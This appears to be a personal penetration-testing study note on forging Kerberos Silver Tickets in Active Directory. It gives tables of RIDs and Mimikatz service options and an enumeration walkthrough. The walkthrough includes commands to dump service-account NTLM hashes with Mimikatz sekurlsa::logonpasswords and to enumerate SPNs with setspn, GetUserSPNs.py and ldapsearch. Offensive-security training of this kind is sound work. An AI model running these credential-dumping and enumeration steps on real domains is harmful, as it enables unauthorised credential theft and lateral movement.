 
### Silver Tickets (TGS)
Common RIDs (the last part of a SID):

| RID | Security Principal    |
| --- | --------------------- |
| 500 | Administrator account |
| 501 | Guest account         |
| 502 | `krbtgt` account      |
| 512 | Domain Admins group   |
| 513 | Domain Users group    |
| 514 | Domain Guests group   |

Common `/service` options in `kerberos::golden`:

| Service Option     | SPN (Service Principal Name) | Purpose                                                   |
| ------------------ | ---------------------------- | --------------------------------------------------------- |
| `/service:krbtgt`  | `krbtgt/<DOMAIN>`            | Default for **Golden Tickets** (domain-wide access)       |
| `/service:cifs`    | `cifs/<SERVER>`              | File sharing and SMB access (lateral movement)            |
| `/service:http`    | `http/<SERVER>`              | Web applications and IIS services                         |
| `/service:ldap`    | `ldap/<SERVER>`              | LDAP directory access (used for AD enumeration)           |
| `/service:rpc`     | `rpc/<SERVER>`               | Remote Procedure Calls (RPC) for remote system management |
| `/service:host`    | `host/<SERVER>`              | Generic host services (used for remote desktop and WMI)   |
| `/service:ftp`     | `ftp/<SERVER>`               | FTP server access                                         |
| `/service:wsman`   | `wsman/<SERVER>`             | Windows Remote Management (WinRM) for PowerShell remoting |
| `/service:mssql`   | `mssql/<SERVER>`             | SQL Server database access                                |
| `/service:termsrv` | `termsrv/<SERVER>`           | Remote Desktop Protocol (RDP) access                      |
| `/service:smb`     | `smb/<SERVER>`               | Alternative to `cifs` for SMB access                      |
| `/service:svc`     | `svc/<SERVER>`               | Custom services running under specific service accounts   |
> **Prerequisites**:
> 1) Note: this only works on machines *without* **KB5008380**. This is enforced from October 1, 2022 onwards.
> 2) SPN password hash
> 3) Domain SID (trivial)
> 4) Target SPN
1) Enumerate to obtain the following 3 things:
	1) **SPN password hash**: Mimikatz `privilege::debug` then `sekurlsa::logonpasswords` and yoink the NTLM value for the service account
	2) **Domain SID**: `whoami /user`
		1) The domain SID is the whole thing minus the last part (e.g., just the highlighted part below)
			1) corp\jeff **S-1-5-21-1987370270-658905905-1781884369**-1105
	3) **Target SPN**: e.g., `HTTP/web04.corp.com:80` because we want to access the web page running on IIS
		1) Attempt to access before the attack with `iwr -UseDefaultCredentials http://web04`
		2) Enumerate with
			1) `setspn -L web04`
			2) `python3 GetUserSPNs.py corp.com/<user>:<password> -dc-ip <DC_IP> -outputfile spns.txt`
			3) `ldapsearch -x -h <domain controller> -D "<user>@<domain>" -W -b "dc=corp,dc=com" "(servicePrincipalName=*)" servicePrincipalName` (chatGPT)
